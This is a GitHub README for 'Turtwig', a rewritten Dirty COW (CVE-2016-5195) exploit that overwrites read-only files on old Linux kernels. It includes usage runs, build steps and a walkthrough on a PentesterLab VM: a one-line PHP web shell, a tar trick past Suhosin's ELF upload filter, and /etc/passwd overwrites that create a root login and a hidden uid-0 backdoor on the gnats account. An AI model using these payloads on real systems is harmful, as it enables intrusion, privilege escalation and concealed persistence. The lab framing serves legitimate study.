

# Turtwig Rides Dirty COW (CVE-2016-5195)


> [!CAUTION]
> **Disclaimer**:<br>This code and accompanying documentation are provided strictly for academic, educational, and research purposes only. Any use of this material to compromise, damage, or gain unauthorized access to systems or data is strictly prohibited.
> <br>**Use it at your own risk.**

> [!NOTE]
>This is a new writing of Dirty COW "Pokemon" Exploit that:
>1. allow to write anything anywhere in a target file
>1. can handle any size of target file and data to write (don't care of memory page size)
>1. optimizes the substitution algorithm
>    * works by word not single character (4 or 8 bytes)
>    * regularly monitors words substitution and then handles only on non substituted words
>1. does not overload the scheduler, so non atomic operations has better chance to occur
>
> Which results that the exploit is **generic**, **stealthy** and **fast**.

> [!TIP]
> Since the **“pokemon”** process is slow, pauses, and observes the results, it is **very slow** (**a turtle :turtle:**) compared to other exploits that run “infinite” loops (hares :rabbit:).
> That's why it's called **Turtwig** (thank to [Téo](https://www.linkedin.com/in/teo-mosnier-22180621b)).

# :turtle: Usage

## :cow: Vulnerable Kernel  
```
user@debian:~$ cat /etc/issue
Debian GNU/Linux 6.0
user@debian:~$ uname -a
Linux debian 2.6.32-5-686 #1 SMP Sun Sep 23 09:49:36 UTC 2012 i686 GNU/Linux
```

> [!NOTE]
> Dirty COW allowto change bytes on a file that is readonly for the current user. So, you must have readonly access to the file and you can not change the size of the file.


## :question: Help 

<details>
<summary>Click to expand</summary><br>

```
user@debian:~$ ./trdc-debian-squeeze-386.elf 

Main check arguments

usage:  file_path data_offset [ride_length [ride_interval [madvise_interval]]]

data:   read from stdin ( | or < )

      //@@
     @@-OO)
    @@@ ^ @    _____
    /  \ / \  |\____\
   /  ( X ) | | |   |
<___=\      | | |   |
      \======\ \|_"_|
                  (____
```
</details>

## :dart: Target file 

```
user@debian:~$ echo -n 'abcdefghijklm' > target && chmod u-w target
```

## :skull: Write characters to the begin of the file 

```
user@debian:~$ echo -n '12345' | ./trdc-debian-squeeze-386.elf ./target 0 

Main check arguments

data_size: 5 is not a multiple of 4
           I can handle it!
           last data "word" size is 1
           3 bytes of the file was added to last incomplete word
           data_size is now 8

      //@@
     @@-OO)
    @@@ v @    _____
    /  \ / \  |\____\
   /  ( X ) | | |   |
<___=\      | | |   |
      \======\ \|_"_|
                  (____

Turtwig rides DirtyCow

              __
   .,-;-;-,. /'_\
 _/_/_/_|_\_\) /
-<_><_><_><_>=/
 `/_/====/_/-'\_\
  ""     ""    ""

page memory size: 4096
word size: 4
ride lenght: 512
ride interval: 1
madvise interval: 3

ride num: words (1 to do, 0 done)
00000002: 1 1 
...
00000041: 0 0 

madvise count : 61
pokedata count : 20992

Turtwig wins in 41 rides :-)

+------------------------------------+
| This read-only file can be updated |
|       and that very quickly        |
|           MoooOOOOooOooo!          |
+------------------------------------+
              o
        (__)  o
        (oo) o
  /------\/ 
 / | # - ||   
*  ||----||  
   ~~    ~~  

user@debian:~$ xxd target
0000000: 3132 3334 3566 6768 696a 6b6c 6d         12345fghijklm
```
</details>

## :skull: Write characters to the end of the file

<details><summary>Click to see</summary><br>

```
user@debian:~$ echo -n 'ABCDE' | ./trdc-debian-squeeze-386.elf ./target 8 2>/dev/null

Main check arguments

data_size: 5 is not a multiple of 4
           I can handle it!
           last data "word" size is 1
           0 bytes of the file was added to last incomplete word
           3 zeros was added to last incomplete word (EOF reached)
           data_size is now 8

      //@@
     @@-OO)
    @@@ v @    _____
    /  \ / \  |\____\
   /  ( X ) | | |   |
<___=\      | | |   |
      \======\ \|_"_|
                  (____

Turtwig rides DirtyCow

              __
   .,-;-;-,. /'_\
 _/_/_/_|_\_\) /
-<_><_><_><_>=/
 `/_/====/_/-'\_\
  ""     ""    ""

Turtwig wins in 182 rides :-)

+------------------------------------+
| This read-only file can be updated |
|       and that very quickly        |
|           MoooOOOOooOooo!          |
+------------------------------------+
              o
        (__)  o
        (oo) o
  /------\/ 
 / | # - ||   
*  ||----||  
   ~~    ~~  

user@debian:~$ xxd target 
0000000: 3132 3334 3566 6768 4142 4344 45         12345fghABCDE
```
</details>

## :skull: Write a byte at the  middle of the file

<details><summary>Click to see</summary><br>

```
user@debian:~$ echo -ne '\x47' | ./trdc-debian-squeeze-386.elf ./target 6 2>/dev/null

Main check arguments

data_size: 1 is not a multiple of 4
           I can handle it!
           last data "word" size is 1
           3 bytes of the file was added to last incomplete word
           data_size is now 4

      //@@
     @@-OO)
    @@@ v @    _____
    /  \ / \  |\____\
   /  ( X ) | | |   |
<___=\      | | |   |
      \======\ \|_"_|
                  (____

Turtwig rides DirtyCow

              __
   .,-;-;-,. /'_\
 _/_/_/_|_\_\) /
-<_><_><_><_>=/
 `/_/====/_/-'\_\
  ""     ""    ""

Turtwig wins in 45 rides :-)

+------------------------------------+
| This read-only file can be updated |
|       and that very quickly        |
|           MoooOOOOooOooo!          |
+------------------------------------+
              o
        (__)  o
        (oo) o
  /------\/ 
 / | # - ||   
*  ||----||  
   ~~    ~~  

user@debian:~$ xxd target 
0000000: 3132 3334 3566 4768 4142 4344 45         12345fGhABCDE
```
</details>

## :skull: Use a file as data

<details><summary>Click to see</summary><br>

```
user@debian:~$ echo -n '&!#' > data
user@debian:~$ ./trdc-debian-squeeze-386.elf ./target 1 < data
Main check arguments

data_size: 3 is not a multiple of 4
           I can handle it!
           last data "word" size is 3
           1 bytes of the file was added to last incomplete word
           data_size is now 4

      //@@
     @@-OO)
    @@@ v @    _____
    /  \ / \  |\____\
   /  ( X ) | | |   |
<___=\      | | |   |
      \======\ \|_"_|
                  (____

Turtwig rides DirtyCow

              __
   .,-;-;-,. /'_\
 _/_/_/_|_\_\) /
-<_><_><_><_>=/
 `/_/====/_/-'\_\
  ""     ""    ""

page memory size: 4096
word size: 4
ride lenght: 512
ride interval: 1
madvise interval: 3

ride num: words (1 to do, 0 done)
00000001: 1 
...
00000016: 0 

madvise count : 19
pokedata count : 8192

Turtwig wins in 16 rides :-)

+------------------------------------+
| This read-only file can be updated |
|       and that very quickly        |
|           MoooOOOOooOooo!          |
+------------------------------------+
              o
        (__)  o
        (oo) o
  /------\/ 
 / | # - ||   
*  ||----||  
   ~~    ~~  

user@debian:~$ xxd target 
0000000: 3126 2123 3566 4768 4142 4344 45         1&!#5fGhABCDE
```
</details>

## :skull: More examples in `./test`

* [Test of TRDC on Debian Jessie 64bit](./test/trdc-debian-jessie-amd64.log)  :skull:
* [Test of TRDC on Debian Squeezze 32bit](./test/trdc-debian-squeeze-386.log)  :skull:


# :construction_worker: Compile

Exploits can be compiled with a targeted OS Docker container, all is in `./docker/debian-eol`.

<details>
<summary>Click to expand</summary>

## :hammer_and_wrench: Build for OS and Architecture

```
./docker/debian-eol$ ./build.sh wheezy linux/386
[+] Building 14.1s (9/9) FINISHED
...
 => => naming to docker.io/debian/wheezy:slim-linux-386-gcc
```
## :arrow_right: Run the Build

```
./docker/debian-eol$ ./run.sh wheezy linux/386
gcc (Debian 4.7.2-5) 4.7.2
Copyright (C) 2012 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

./a.out: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26, BuildID[sha1]=0xe8820ca4c965da02eac9056aad81bb964f92ad10, not stripped

Main check arguments

usage:  file_path data_offset [ride_length [ride_interval [madvise_interval]]]

data:   read from stdin ( | or < )

      //@@
     @@-OO)
    @@@ ^ @    _____
    /  \ / \  |\____\
   /  ( X ) | | |   |
<___=\      | | |   |
      \======\ \|_"_|
                  (____

"gcc -pthread ../src/turtwig-rides-dirtycow.c -o " is the lastcmd in the history, ready to use!
```
## :repeat: Compile

```
me@docker-wheezy-linux-386:/trdc/elf$ gcc -pthread ../src/turtwig-rides-dirtycow.c -o trdc-debian-wheezy-386.elf
me@docker-wheezy-linux-386:/trdc/elf$ file trdc-debian-wheezy-386.elf
trdc-debian-wheezy-386.elf: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26, BuildID[sha1]=0xe8820ca4c965da02eac9056aad81bb964f92ad10, not stripped
```
</details>

# :skull: From SQL Injection to Shell to "root" (use case)
 
:free: [From SQL Injection to Shell](https://pentesterlab.com/exercises/from-sqli-to-shell) is a free exercice of [Pentesterlab](https://pentesterlab.com). :test_tube:
 
In the exercice we gain access to a web shell as `www-data`, so why not trying to be `root`? The vulnerable machine is an Debian 6 (`from_sqli_to_shell_i386.iso`), so that's where I started my Dirty COW “quest”: 
1. :cow: [DirtyCow Origin](https://github.com/FrancoisCapon/BetaDirtyCowWithCowherd?tab=readme-ov-file#dirtycow-origin-cow) 
1. :woman_farmer: [DirtyCow with Cowherd](https://github.com/FrancoisCapon/BetaDirtyCowWithCowherd?tab=readme-ov-file#dirtycow-with-cowherd-cow-woman_farmer)
1. :turtle: [Turtle](https://github.com/FrancoisCapon/BetaDirtyCowWithCowherd?tab=readme-ov-file#turtle-rabbit-turtle)

> [!NOTE]
> `192.168.1.33` is the IP address of the Photoblog server.

## :keyboard: Web Shell

As in the exercice I use a minimalist web shell (not a `p0wny@shell` for example).

<details>
<summary>Click to expand</summary><br>

```php
# shell.php3
<pre><?=`$_GET[c]`?>
```
```
http://192.168.1.33/admin/uploads/admin/uploads/shell.php3?c=ls -l ../
total 7
-rw-r--r-- 1 www-data www-data  277 Sep 20  2012 del.php
-rw-r--r-- 1 www-data www-data   19 Sep 20  2012 footer.php
-rw-r--r-- 1 www-data www-data  686 Sep 20  2012 header.php
-rw-r--r-- 1 www-data www-data  641 Sep 20  2012 index.php
-rw-r--r-- 1 www-data www-data 1558 Sep 20  2012 login.php
-rw-r--r-- 1 www-data www-data   83 Sep 20  2012 logout.php
-rw-r--r-- 1 www-data www-data  524 Sep 20  2012 new.php
drwxrwxrwx 2 www-data www-data   60 Aug 32 24:24 uploads
```
</details>

## :shield: Bypassing Suhosin's ELF filter

```
shell.php3?c=php -i

This server is protected with the Suhosin Patch 0.9.9.1
Copyright (c) 2006-2007 Hardened-PHP Project
Copyright (c) 2007-2009 SektionEins GmbH
```
> [!NOTE]
> Suhosin is an open-source security patch and extension for PHP designed to harden the runtime environment and protect servers from insecure coding practices and known or unknown vulnerabilities.

> [!WARNING]
> [Filtering Features](https://suhosin5.suhosin.org/stories/feature-list.html#filtering-features)
> * Supports automatic banning of uploaded ELF executables

So, we can not directly upload our exploit (`trdc-debian-squeeze-386.elf` renamed `trdc.bin`), the application responds `Error during upload`.

> [!TIP]
> But we can easily by pass the filter by encoded or compressed or wrapped the ELF before the upload and reverse the process after the upload.

<details>
<summary>Click to expand</summary><br>

```
tar -cvf trdc.tar trdc.bin
```

```
shell.php3?c=tar -xvf trdc.tar; chmod u+x trdc.bin; ./trdc.bin
trdc.bin

Main check arguments

usage:	file_path data_offset [ride_length [ride_interval [madvise_interval]]]
 
data:	read from stdin ( | or < )
 
       //@@
      @@-OO)
     @@@ ^ @    _____
     /  \ / \  |\____\
    /  ( X ) | | |   |
 <___=\      | | |   |
       \======\ \|_"_|
                   (____
 
```

</details>

Now, we can use trdc to update any file that we can only read such as configuration files or the accounts file ; **the only limit is our imagination!**

In our case, the goal is to become `root`, here are two ways to achieve this.

## :one: Update the root line of /etc/passwd

> [!TIP]
>In this solution, we change the name of root to `0` and we set the password `0` (second field) so the root line remain the same size and we do not write to the second line.

```
/etc/passwd
root:x:0:0:root:/root:/bin/bash
     ^
     passwd in /etc/shadow
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...

     
root:x:0:0:root:/root:/bin/bash <= before
0:002UBq03Nvvos:0:0:::/bin/bash <= after
  ^
  crypt DES salt 00 passwd 0 crypt("0", "00")

```

<details>
<summary>Click to expand</summary><br>

```
shell.php3?c=echo -n '0:002UBq03Nvvos:0:0::' | ./trdc.bin /etc/passwd 0 2>%261
Main check arguments

data_size: 21 is not a multiple of 4
	   I can handle it!
	   last data "word" size is 1
	   3 bytes of the file was added to last incomplete word
	   data_size is now 24

...

madvise count : 1192
pokedata count : 436224

Turtwig wins in 852 rides :-)
```

```
shell.php3?c=head -n 2 /etc/passwd
0:002UBq03Nvvos:0:0:::/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
```
</details>

:dart: We can connect in SSH with the `0` user and whe are "root".

```
$ ssh 0@192.168.1.33
0@192.168.1.33's password: <= 0
...
0@debian:/# id
uid=0(0) gid=0(root) groups=0(root)
0@debian:/# head /etc/shadow
root:*:20312:0:99999:7:::
daemon:*:15604:0:99999:7:::
bin:*:15604:0:99999:7:::
sys:*:15604:0:99999:7:::
sync:*:15604:0:99999:7:::
games:*:15604:0:99999:7:::
man:*:15604:0:99999:7:::
lp:*:15604:0:99999:7:::
mail:*:15604:0:99999:7:::
news:*:15604:0:99999:7:::
```

## :two: Take ownership of the user gnats

We will apply the [solution](https://github.com/thaddeuspearson/Understanding_DirtyCOW?tab=readme-ov-file#time-to-exploit) proposed by Thaddeus Pearson with the Turtwig exploit on the `gnats` user who must be a little/not used user. **This time, we can "stay in the system"**.

```
/etc/passwd
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
...

crypt("1234", "az") = azmJb5b.yzpAA

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh <= before
gnats:azmJb5b.yzpAA:00:00:Gnats  Bug-Reporting  :/var/lib/gnats:/bin/sh <= after

```

### :mag_right: Find the offset

```
shell.php3?c=grep -b gnats /etc/passwd
596:gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh

shell.php3?c=grep -bo x:41:41 /etc/passwd
602:x:41:41
```

The offset off the data to write is `602` and the string (data) is "`azmJb5b.yzpAA:00:00:Gnats  Bug-Reporting  `" (beware to spaces).

### :cow: Let's exploit Dirty COW :turtle:

<details>
<summary>Click to expand</summary><br>

```
shell.php3?c=echo -n 'azmJb5b.yzpAA:00:00::Gnats  Bug-Reporting  ' | ./trdc.bin /etc/passwd 602 2>%261
Main check arguments

data_size: 42 is not a multiple of 4
	   I can handle it!
	   last data "word" size is 2
	   2 bytes of the file was added to last incomplete word
	   data_size is now 44

...

madvise count : 1113
pokedata count : 344576

Turtwig wins in 673 rides :-)
```
```
shell.php3?c=grep -B 1 -A 1 gnats /etc/passwd
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:azmJb5b.yzpAA:00:00:Gnats  Bug-Reporting  :/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
```
</details>

:one: We can connect in SSH with the `gnats` user and whe are "root" :dart:

```
$ ssh gnats@192.168.1.33
gnats@192.168.1.33's password: <= 1234
# id
uid=0(root) gid=0(root) groups=0(root)
```
:two: The `root` account is still unchanged, **nobdy will see our "backdoor"** :dart:

```
$ ssh user@192.168.1.33
user@192.168.1.33's password: <= live
user@debian:~$ sudo su -
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```

# :question: FAQ

## :grey_question: When the race condition occur?

See the [Dirty COW Demo by Jake Wilson and Nimesha Jayawardena](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/demo.html)




## :grey_question: [ride_length [ride_interval [madvise_interval]]]

<details>
<summary>Click to expand</summary><br>

With these command arguments, it is possible to precisely adjust the behavior of the turtwig processus and dirty COW processus.

For each word to write, Turtwig wait `ride_interval` and then loops `ride_lenght` of `ptrace(PTRACE_POKEDATA)`.

The dirty COW processus has two threads, the main is the tracee (traced by Turtwig) and the second is the `madvise`. This second thread "`MADV_DONTNEED`" the kernel each `madvise_interval` to try to fire the race condition.

I empirically determined the default values that give "good" results and [put them in the code](./src/20-declaration.inc.c#L4).

| parameter | default value | unit |
|:---|----:|:---|
| `ride_length` | 512 | count |
| `ride_interval` | 1 | microseconds |
| `madvise_interval` | 3 |  microseconds |

</details>

